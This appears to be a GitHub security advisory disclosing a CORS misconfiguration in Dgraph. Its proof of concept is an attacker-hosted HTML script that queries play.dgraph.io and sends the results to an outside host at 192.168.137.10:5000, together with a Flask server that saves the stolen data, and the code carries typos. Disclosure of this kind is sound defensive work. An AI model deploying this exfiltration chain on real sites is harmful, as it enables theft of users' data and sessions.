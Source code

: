 ### Summary
It is possible to steal sensitive information from the platform such as logs, browser sessions, settings containing private API KEYS from other services; it is possible to make a user delete a project, send a message, etc. due to CORS misconfiguration.

Because the locally deployed dgraph service does not have relevant data, play.dgraphit.io is used for demonstration here

### Detail
Due to incorrect settings here
![image](https://github.com/user-attachments/assets/7330cfff-fcc8-4de1-b4f4-252aaa47c4a0)


1.We need to create an HTML file that can be deployed on the attacker's server, assuming it is accidentally accessed by the victim
The main task of this HTML is to access API interfaces in play.dgraphit.io that have vulnerabilities due to incorrect configuration, and return the resulting data obtained from the access to the attacker
```
<script>
fetch('https://play.dgraph.io/query?timeout=20s', {
  method: 'POST', 
  headers: {
    'Content-Type': 'application/graphql+-'
  },
  body: `
  {
      samples(func: has(<NRHP>), first: 10) {
          uid
          expand(_all_) {
            uid
            expand(_all_)
          }
      }
  }
  ` 
})
  .then(response => response.text()) 
  .then(data => {
    console.log('Got sensitive data:', data); 


    fetch('http://192.168.137.10:5000/steal-data', {
      method: 'POST',
      headers: {
        'Content-Type': 'application/json'
      },
      body: JSON.stringify({ stolenData: data }) 
    })
    .then(response => response.text())
    .then(result => {
      console.log('send data success', result);
    })
    .catch(error => {
      console.error('send data failed:', error); 
    });
  })
  .catch(error => {
    console.error('No data:', error);
  });

</script>

```



2.The attacker also needs to create an HTTP server to receive the data
```
om flask import Flask, request
from flask_cors import CORS

app = Flask(__name__)
CORS(app)  

@app.route('/steal-data', methods=['POST'])
def steal_data():
    data = request.get_json()
    
    if data:
        print(f"Received data: {data}")
        with open('stolen_data.txt', 'a') as f:
            f.write(str(data) + '\n')
        return "Got data", 200
    else:
        return ,400

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```
At the end, we obtained the data
![image](https://github.com/user-attachments/assets/7027ae92-730b-4aad-93c5-5bf8469105bf)


### Impact
dgraph/x /x.go 


### Refer 
[Github Origin](https://github.com/dgraph-io)  

[Github security](https://github.com/dgraph-io/dgraph/security/advisories/GHSA-jvx8-g626-pxr6)
